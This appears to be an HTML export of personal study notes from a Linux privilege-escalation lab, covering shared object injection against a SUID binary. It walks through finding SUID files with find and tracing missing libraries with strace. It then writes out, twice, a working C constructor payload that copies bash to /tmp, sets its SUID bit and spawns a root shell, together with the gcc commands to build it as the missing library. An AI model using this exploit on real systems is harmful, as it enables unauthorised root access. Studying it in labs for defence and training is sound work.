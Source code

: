 <!DOCTYPE html  PUBLIC '-//W3C//DTD XHTML 1.0 Transitional//EN'  'http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd'><html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta content="text/html; charset=utf-8" http-equiv="Content-Type"/>
<title>Shared Object Injection</title>
</head><body><b>Escalation via Shared Object Injection</b><br/>
<br/>
<br/>
Challanging and required deep diving to find and exploit<br/>
<br/>
<br/>
Start with the permission find command<br/>
<br/>
<b>find / -type f -perm -04000 -ls 2&gt;/dev/null</b><br/>
<br/>
This will dsiaply a list of all files that have the <b>S bit set<br/>
</b><b><br/>
</b>Step 1. Check GTFO bins for a easy win<br/>
<br/>
If nothing available, move on to trying to find an oportunity to perform a SO (Shared Object) injection<br/>
<br/>
We are looking for something we can inject (file) or overwrite<br/>
<br/>
Check potentail shares with <b>ls -la &lt;file&gt;</b><br/>
<br/>
We will see s bit set on owner and group<br/>
<br/>
<img height="77" src="image.png" width="850"/><br/>
<br/>
Certain tools would also identify this, IE Linpeas<br/>
<br/>
Normally we would try run this file to furtehr understand what its doing.<br/>
<br/>
This may require another tool such as, <b>strace</b>, a diagnotstic tool that will output what is happenioeng behind the scencs and interaction file is doing.<br/>
<br/>
syntax &gt; <b>strace &lt;file&gt; 2&gt;&amp;1<br/>
</b><b><br/>
</b>We want to find where the file is outputting &quot;no such file or directory&quot;<br/>
<br/>
Narrow down<br/>
<br/>
syntax &gt; <b>strace &lt;file&gt; 2&gt;&amp;1 | grep -i -E &quot;open|access|no such file&quot;<br/>
</b><br/>
<img height="285" src="image 2.png" width="650"/><br/>
<br/>
We would enumare the list looking for an oportunity to 'overwrite' or inject our own malicious code.<br/>
<br/>
<b>ls -la &lt;file&gt;<br/>
</b><br/>
Looking to confirm no such file or directory<br/>
<br/>
when confirmed. We will insert our malicious file in place of the missing file. When the shared object file is run against and searches again, this time instead of returning no such file or directory, a file will exist, our malicious code and it will execute it.<br/>
<br/>
Create the malicious file, use waht ever is avilable... nano, vim etc..<br/>
written in C<br/>
<br/>
call it the file you are replacing .c<br/>
<br/>
code<br/>
<br/>
<b>#include &lt;stdio.h&gt;<br/>
#include &lt;stdlib.h&gt;<br/>
<br/>
static void inject() __attribute__((constructor));<br/>
<br/>
void inject() {<ul><li style="list-style-type: none">system(&quot;cp /bin/bash /tmp/bash &amp;&amp; chmod +s /tmp/bash &amp;&amp; /tmp/bash -p&quot;);</li>
</ul>
</b><b>}</b><ul><li style="list-style-type: none"/>
</ul>
<br/>
Note with this code. it copies Bash to tmp folder and uses that copy instead of affecting the live copy of bash.<br/>
<br/>
You may need to create the folders that may also be missing <br/>
<br/>
mkdir &lt;folders&gt;<br/>
<br/>
then complie .c<br/>
<br/>
gcc -shared -fPIC -o &lt;output file loc and name... the one you want to impersonate&gt; &lt;the .c file created&gt;<br/>
<br/>
<br/>
<img height="27" src="image 3.png" width="650"/><ul><li style="list-style-type: none"/>
</ul>
File is now compiled and replaced. Re run the original SUID file<br/>
<br/>
This should give you root.<br/>
<br/>
<img height="122" src="image 4.png" width="700"/><br/>
<br/>
<br/>
<br/>
<br/>
<br/>
Detection<br/>
<br/>
Linux VM<br/>
<br/>
1. In command prompt type: find / -type f -perm -04000 -ls 2&gt;/dev/null<br/>
2. From the output, make note of all the SUID binaries.<br/>
3. In command line type:<br/>
strace /usr/local/bin/suid-so 2&gt;&amp;1 | grep -i -E &quot;open|access|no such file&quot;<br/>
4. From the output, notice that a .so file is missing from a writable directory.<br/>
<br/>
Exploitation<br/>
<br/>
Linux VM<br/>
<br/>
5. In command prompt type: mkdir /home/user/.config<br/>
6. In command prompt type: cd /home/user/.config<br/>
7. Open a text editor and type:<br/>
<br/>
#include &lt;stdio.h&gt;<br/>
#include &lt;stdlib.h&gt;<br/>
<br/>
static void inject() __attribute__((constructor));<br/>
<br/>
void inject() {<br/>
  system(&quot;cp /bin/bash /tmp/bash &amp;&amp; chmod +s /tmp/bash &amp;&amp; /tmp/bash -p&quot;);<br/>
}<br/>
<br/>
8. Save the file as libcalc.c<br/>
9. In command prompt type:<br/>
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c<br/>
10. In command prompt type: /usr/local/bin/suid-so<br/>
11. In command prompt type: id<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
<br/>
</body></html>